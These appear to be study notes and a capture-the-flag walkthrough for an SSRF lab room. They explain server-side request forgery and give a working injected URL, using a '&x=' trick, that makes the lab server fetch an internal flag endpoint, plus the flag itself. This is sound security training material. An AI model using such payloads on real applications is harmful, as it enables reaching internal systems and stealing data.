 [[Room]] [[week1]]

**What is an SSRF?**

SSRF stands for Server-Side Request Forgery. It's a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.

## **Types of SSRF**

There are two types of SSRF vulnerability; the first is a regular SSRF where data is returned to the attacker's screen. The second is a Blind SSRF vulnerability where an SSRF occurs, but no information is returned to the attacker's screen.

## **What's the impact?**

A successful SSRF attack can result in any of the following: 

- Access to unauthorised areas.
- Access to customer/organisational data.
- Ability to Scale to internal networks.
- Reveal authentication tokens/credentials.

(task 2 from AI)

### Task: Exploiting SSRF to get the flag

In the mock browser provided by the room, the application sends a request to the URL in the `server` parameter. The bottom bar shows exactly which request is being sent by `website.thm`.

Given:

```
https://website.thm/item/2?server=api
```

The application requests:

```
https://api.website.thm/api/item?id=2
```

---

### Goal

Force the web server to fetch:

```
https://server.website.thm/flag?id=9
```

so that it returns the flag.

---

### Problem

If you simply replace `server` with `https://server.website.thm/flag?id=9`, the resulting URL in the server request becomes malformed. It appends the rest of the path/query from the original request to your injected URL, creating something like:

```
https://server.website.thm/flag?id=9.website.thm/api/item?id=2
```

which causes a `404` error.

---

### Solution: Using `&x=` Trick

To stop the application from appending its default `/api/item?id=2`, you can terminate the query string by adding `&x=` to the end of your payload.

**Correct URL:**

```
https://website.thm/item/2?server=server.website.thm/flag?id=9&x=
```

Now, the request sent by `website.thm` is clean:

```
https://server.website.thm/flag?id=9
```

and you will receive the flag response:

```
THM{SSRF_MASTER}
```

---

### Final Answer

- Injected URL:
    

```
https://website.thm/item/2?server=server.website.thm/flag?id=9&x=
```

- Flag:
    

```
THM{SSRF_MASTER}
```

---

### Why This Works

- The application appends additional path/query to whatever you supply in `server`. Adding `&x=` breaks that process by finishing the query string, so the rest of the URL is ignored.
    
- Encoding tricks (like `%3F` and `%3D`) are often insufficient in this lab; the `&x=` method is the cleanest and most reliable path to isolate the request.
    

---

### Key Takeaways

- In real SSRF scenarios, query breaking via `&` is a classic technique.
    
- Always watch how the server _actually_ constructs the outbound request — especially with any debugging bar like the one given in this room.
    
- Control the full path/query string to direct requests precisely where you want.
    

---

Potential SSRF vulnerabilities can be spotted in web applications in many different ways. Here is an example of four common places to look:
================================================

**When a full URL is used in a parameter in the address bar:**

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/956e1914b116cbc9e564e3bb3d9ab50a.png)  

**A hidden field in a form:**

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/237696fc8e405d25d4fc7bbcc67919f0.png)  

**A partial URL such as just the hostname:**

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/f3c387849e91a4f15a7b59ff7324be75.png)

  

**Or perhaps only the path of the URL:**

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/3fd583950617f7a3713a107fcb4cfa49.png)

Some of these examples are easier to exploit than others, and this is where a lot of trial and error will be required to find a working payload.

If working with a blind SSRF where no output is reflected back to you, you'll need to use an external HTTP logging tool to monitor requests such as requestbin.com, your own HTTP server or Burp Suite's Collaborator client.